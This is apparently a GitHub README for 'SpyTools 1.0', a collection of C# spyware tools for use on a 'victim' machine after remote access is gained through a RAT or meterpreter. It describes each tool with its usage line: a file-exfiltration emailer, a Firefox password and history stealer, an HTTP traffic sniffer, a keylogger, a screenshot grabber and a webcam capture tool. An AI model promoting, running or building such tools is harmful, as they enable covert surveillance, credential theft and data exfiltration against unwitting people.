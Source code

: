# SpyTools 1.0
<br/>
SpyTools is a collection of little tools wirtten in C# .Net 2.0, usefull to spy a vectim. If you got remote access, with a RAT or meterpreter, you can upload this tools to the victim machine, and run them, or persist them using Porwersploit. It is distributed under the GNU GPLv3 license.
<br/>
<br/>
List of tools:
<br/>
EmailSender: get all files with some extensions in the current path, and send an email attaching them.
<br/>
Usage: EmailSender.exe "server.com" "user@server.com" "password" "from@domain.com" "FromName" "to@domain.com" "Subject" "Body" "jpg,txt,png"
<br/>
<br/>
FoxyStealer: copy to the current path, all firefox database and conifg files, for each profile. You can get the history or the passwords saved form them.
<br/>
Usage: FoxyStealer.exe
<br/>
<br/>
HTTPSniffer: Start to capture all HTTP traffic, and flush them into a txt file.
<br/>
Usage: HTTPSniffer.exe ["OutputFileName" NumericIntervalToFlushTrafficToDisk]
<br/>
<br/>
Keylogger: Start to capture all keys, and flush them into a file.
<br/>
Usage: Keylogger.exe ["OutputFileName" NumericIntervalToFlushKeysToDisk]
<br/>
<br/>
Printscreen: Take a screenshot.
<br/>
Usage: Printscreen.exe ["OutputFileName"]
<br/>
<br/>
WebcamSnap: Take a picture from the webcam.
<br/>
Usage :WebcamSnap.exe ["OutputFileName"]